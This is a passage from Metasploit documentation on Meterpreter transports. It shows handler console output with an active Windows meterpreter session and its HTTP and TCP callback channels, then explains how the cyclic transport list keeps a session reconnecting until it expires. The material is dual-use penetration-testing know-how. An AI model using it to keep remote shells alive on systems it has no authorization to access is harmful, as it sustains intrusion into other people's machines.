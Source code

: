 ```
msf exploit(handler) > sessions -l

Active sessions
===============

  Id  Type                   Information                           Connection
  --  ----                   -----------                           ----------
  1   meterpreter x86/win32  WIN-S45GUQ5KGVK\OJ @ WIN-S45GUQ5KGVK  10.1.10.40:5105 -> 10.1.10.40:46457 (10.1.10.35)

msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:05

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
          tcp://10.1.10.40:5005                                                                                  300        3600         10
          tcp://10.1.10.40:6000                                                                                  300        3600         10
```
The session is back up and running as if nothing had gone wrong.

In the case where Meterpreter is configured with only a single transport mechanism, this process still takes place. Meterpreter's transport list implementation is a cyclic linked-list, and once the end of the list has been reached, it simply starts from the beginning again. This means that if there's a list of _one_ transport then Meterpreter will continually attempt to use that one transport until the session expires. This works for both `TCP` and `HTTP/S`.

For important detail on network resiliency, please see the [reliable network communication documentation](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Reliable-Network-Communication).

## Supported Meterpreters

The following Meterpreter implementations currently support the transport commands:

 * Windows x86
 * Windows x64
 * POSIX x86
 * Android
 * Java
 * Python

  [Timeout documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Timeout-Control
  [Reliable Network documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Reliable-Network-Communication